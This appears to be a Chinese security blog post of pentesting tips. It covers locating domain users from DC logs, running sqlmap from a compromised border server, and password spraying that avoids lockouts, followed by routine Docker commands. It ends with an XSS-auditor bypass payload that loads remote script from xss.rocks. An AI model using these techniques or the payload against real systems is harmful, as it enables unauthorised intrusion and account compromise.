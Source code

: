 ```yaml
---
title: 技巧总结1
layout: post
tags:
  - sec
  - skills
category: 
  - hack
  - skills
comments: true
share: true
---
```



<!--more-->


## 域内定位人


域内定位人技巧：直接导出dc日志，即可将用户名和ip对应起来。

## 网速限制

在通过边界服务器搞内网服务的时候，通常网速会成为一个很大的限制因素，这时候，可将工具直接部署在边界服务器上，例如sqlmap等，在边界服务器直接操作，此时内网对内网，网速极快，后将结果拖回到本地处理，这样避免了使用代理造成的各种网络延迟阻塞问题。

## 密码爆破

使用一个弱口令去跑用户名字典，以防止账号被锁定。


## docker常用命令


1.加载镜像（tar包）

```css
docker load<xxx.tar
```

2.查看tar是否加载成功

```css
docker images
```

3.查看是否有运行中的镜像

```css
docker ps 
```

4.显示所有的镜像

```css
docker ps -a
```

5.运行镜像

```css
docker run --name=临时名 -p 对外的端口:对内的端口（dokcer内部的）  -itd image_name(镜像名，加载后的名字) /bin/bash

docker run --rm -it -p 8080:80 镜像临时名称

```

6.进入镜像内部操作

```css
docker exec -it 临时名 /bin/bash(镜像shell地址)
```

7.退出镜像内部

```css
exit
```
8.保存镜像

```css
docker commit 临时名 镜像名
```

9.导出镜像

```css
docker save 镜像名>镜像名.tar
```

10.备注

启动项在 /root/start.sh

11.删除正在运行的镜像

```css
docker stop name&&docker rm name
```

12.端口映射

```css
docker run -p 80:80 --name 临时名称 -d 镜像名称
```

13.将主机/www/runoob目录拷贝到容器96f7f14e99ab的/www目录下。

```css
docker cp /www/runoob 96f7f14e99ab:/www/
```

14.将主机/www/runoob目录拷贝到容器96f7f14e99ab中，目录重命名为www。

```css
docker cp /www/runoob 96f7f14e99ab:/www
```

15.将容器96f7f14e99ab的/www目录拷贝到主机的/tmp目录中。

```css
docker cp  96f7f14e99ab:/www /tmp/
```

## 绕过chrome的xss审计



```javascript
%00%00%00%00%00%00%00<script%20src=http://xss.rocks/xss.js  ></script>
```
